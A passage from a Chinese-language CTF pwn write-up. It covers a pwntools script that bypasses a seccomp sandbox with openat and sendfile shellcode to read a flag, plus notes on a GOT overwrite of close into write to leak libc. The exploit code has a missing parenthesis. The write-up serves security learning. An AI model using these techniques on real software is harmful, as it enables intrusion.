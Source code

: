 ```python

for i in range(4):
	# 这里显示也是有问题，下面这个recvuntil在for里面
    p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
    payload = '1'
    p.sendline(payload)

p.interactive()
```
![[Pasted image 20241013115334.png]]
### Easy_Shellcode(复现)
#### 比赛时思路
虽然这题没做出来，但感觉我的思路应该没错，应该是构造shellcode的水平实在不行。
![[Pasted image 20241013115859.png]]
可以看到仅打开了NX保护
![[Pasted image 20241013115938.png]]
进入主函数可以看到有sandbox，利用seccomp-tools工具查看![[Pasted image 20241013120103.png]]
可以看到这个sandbox限制了除调用编号为257和327以外的其他所有调用函数的使用，这俩调用编号对应的函数是openat和preadv2。然后我们发现我们拥有0xd000000段的所有权限并且构造的shellcode会被放入0xd000721处并被执行，由于execve等被禁止调用，所以这里我们采用orw的方法来获取shell。
orw指的是open,read和write，有由于sandbox限制了一些系统调用，但一般都会有这三个或这三个中的几个，所以我们可以使用open函数直接打开flag文件，用read函数将其读入到栈上或内存空间中，然后使用write函数再打印出来，从而获取flag
但这道题中很显然我们只有or没有w，那么我们就只能用爆破的方法一位一位爆破flag的值，也就是侧信道爆破的方法，将flag的值爆破出来。
在实际操作的过程中遇到的问题是我构造的shellcode并不能将我自己构造的flag读入到指定的位置上，并未能解决
#### 复现部分
上面的大致思路没有错，只是本题只是禁止了`write`，还有`writev`，`sendfile`这两可以用，不需要采用侧信道爆破的方法来做。
以及本题需要手动恢复`rsp`寄存器，恢复之后就可以用`shellcraft`来构造，不用苦哈哈的自己写还写不对。
exp:
```python
from pwn import *
import pwnlib.gdb
import pwnlib.shellcraft

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./ez_shellcode')
else:
    p = remote('node3.buuoj.cn', 28435)

rsp = '''
    mov rsp, 0x4040c0
'''
shellcode = rsp
shellcode += shellcraft.openat(-100, "./flag", 0, 0)
shellcode += shellcraft.sendfile(1, 3, 0, 0x100

payload = asm(shellcode)
p.sendlineafter(b'World!', payload)

p.interactive()
```
![[Pasted image 20241031090010.png]]
复现的时候没有环境了，这个flag是我自己编写的。
### One_Last_B1te(复现)
看了`wp`后知道可以把`close`的`got`表改为`write`的从而泄露栈上数据来获取`libcbase`，由于开启了`sandbox`限制了一些`system`的使用，后面采用`orw`的方法来将`flag`泄露出来。
过程：
在第一次输入时输入`close`的`got`表，第二次输入单字节时刚好将其修改为`write`的`plt`，之后执行`close`时可以将栈上数据泄露出来：
